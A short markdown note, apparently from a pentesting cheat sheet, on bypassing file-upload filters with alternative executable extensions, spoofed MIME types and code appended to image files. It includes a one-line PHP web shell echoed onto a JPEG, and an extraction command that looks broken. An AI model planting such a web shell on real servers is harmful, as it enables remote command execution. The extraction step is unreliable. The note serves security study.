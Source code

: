 # File Types
In some cases servers may block some, but not all file extensions.

| Language | Extensions |
|----------|------------|
| php      | phtml php php3 php4 php5 inc |
| asp      | asp aspx |
| perl     | pi pm cgi lib |
| jsp      | jsp jspx jsw jsv jspf |
| coldfusion | cfw cfml cfc dbm |

# MIME Types
Servers will check to see if a file has the right MIME Type. Using an intercepting proxy we can change our request in transit using the `Content-Type` header field.

# Steganography
The practice of concealing information wihtin another message or physical object in order to avoid detection.

## Hiding code in images
These techniques may be useful, but they are also very easy to detect. Altering the image file will change it's file hash as well as inflate it's size.

Appending a string to the end of an image file will allow it to still be render, but also provide a unique attack vector.
```sh
echo '<?php echo shell_exec($_GET["cmd"]);?>' >> image.jpg
```
Using the same method you can attach an entire file to the image. That can later be extracted.
```sh
cat rar.rar >> image.jpg
```

Read the file
```sh
hexdump image.jpg | tail -10 | xxd -r -p
```

## Least Significant Bit (LSB) Manipulation
Consider an image to be a 2D array of pixels. Pixels in a coloured image are represented by 3 bytes (Red, Green, Blue). 
![LSB](Images/lsb.png)

